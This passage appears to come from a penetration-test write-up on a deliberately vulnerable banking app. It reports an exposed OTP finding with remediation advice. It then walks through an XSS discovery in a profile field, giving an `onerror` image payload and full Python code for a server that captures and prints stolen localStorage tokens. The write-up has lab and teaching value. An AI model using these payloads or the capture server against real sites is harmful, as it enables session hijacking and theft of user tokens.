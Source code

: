 ![](/Screenshots/unsafebank//pent/OTP.png)

**Vulnerability Score:**  
This is a **Critical issue (CVSS ~9.0)** because OTPs are exposed directly in the response, allowing attackers to bypass secure verification and reset passwords instantly.

**Remedy:**  
Never expose OTPs in API responses or on the client side. OTPs should be securely delivered via out-of-band channels (email, SMS) and verified server-side only. Implement proper OTP expiration, rate limiting, and logging to prevent abuse.

---
### 4. XSS Injection:

During testing on the signup page, I tried numerous XSS payloads across all input fields, but none succeeded. I wasn’t ready to give up though. After signing in, I noticed an option to edit user information—this opened a new attack surface. Injecting a simple HTML snippet like `<h1>aa</h1>` into the **location** field rendered successfully, confirming the input was not properly sanitized.

Next, I tested if script execution was possible. A straightforward `<script>alert(1)</script>` did not trigger, so I switched to using the `onerror` event on an image tag: `<img src=x onerror="alert(1)">`. This worked perfectly and confirmed the presence of an XSS vulnerability.

![](/Screenshots/unsafebank//pent/xss.png)

To escalate the impact, I attempted to exfiltrate the user token stored in localStorage to a webhook. Since the environment was local, I set up a simple Python HTTP server to capture incoming requests:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path.startswith('/s'):
            parsed_path = urllib.parse.urlparse(self.path)
            query = urllib.parse.parse_qs(parsed_path.query)

            if 'd' in query:
                data = query['d'][0]
                decoded = urllib.parse.unquote_plus(data)
                print(f"[!] Stolen data: {decoded}")

            self.send_response(200)
            self.send_header('Content-Type', 'image/gif')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            self.wfile.write(
                b'GIF89a\x01\x00\x01\x00\x80\x00\x00\x00\x00\x00\xFF\xFF\xFF!'
                b'\xF9\x04\x01\x00\x00\x00\x00,\x00\x00\x00\x00\x01\x00\x01\x00'
                b'\x00\x02\x02D\x01\x00;'
            )
        else:
            self.send_response(404)
            self.end_headers()

def run(server_class=HTTPServer, handler_class=RequestHandler, port=8000):
    print(f"[*] Starting server on port {port}")
    httpd = server_class(('', port), handler_class)
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```
